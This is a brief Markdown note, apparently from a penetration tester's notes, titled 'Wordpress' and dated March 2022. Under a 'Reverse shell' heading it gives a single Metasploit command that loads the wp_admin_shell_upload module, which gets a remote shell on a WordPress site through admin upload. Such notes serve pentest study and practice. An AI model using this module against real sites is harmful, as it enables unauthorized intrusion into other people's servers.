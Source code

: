 # Wordpress

> Shahrukh Tramboo | March 18th, 2022

--------------------------------------

# Reverse shell
```bash
msfconsole> use exploit/unix/webapp/wp_admin_shell_upload
```